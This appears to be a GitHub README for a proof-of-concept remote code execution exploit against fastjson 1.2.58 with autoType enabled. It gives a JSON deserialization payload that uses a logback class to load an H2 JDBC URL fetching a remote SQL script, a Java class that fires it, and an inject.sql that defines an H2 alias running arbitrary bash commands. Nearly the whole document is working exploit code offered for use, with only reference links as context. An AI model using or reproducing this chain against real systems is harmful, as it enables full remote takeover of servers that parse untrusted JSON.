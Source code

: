 # fastjson-1.2.58-rce
#### need: 
```
fastjson autoType is enabled
h2 database and some jar
.
├── fastjson-1.2.58.jar
├── h2-1.4.199.jar
├── jackson-annotations-2.9.8.jar
├── jackson-core-2.9.8.jar
├── jackson-databind-2.9.8.jar
└── logback-core-1.3.0-alpha4.jar
```
![](./test.png)
![](./fastjson-1.2.58.jpg)


### Download fastjson-1.2.58.jar
http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.58/fastjson-1.2.58.jar


### exp.java

`{"@type":"ch.qos.logback.core.db.DriverManagerConnectionSource", "url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}`

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class exp {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'\"}";
        JSONObject json = JSON.parseObject(payload);
        json.toJSONString();
    }
}
```

### inject.sql
`you can create an function on H2 that calls a java code`
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc')

```

## 参考链接

https://www.freebuf.com/vuls/209394.html

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
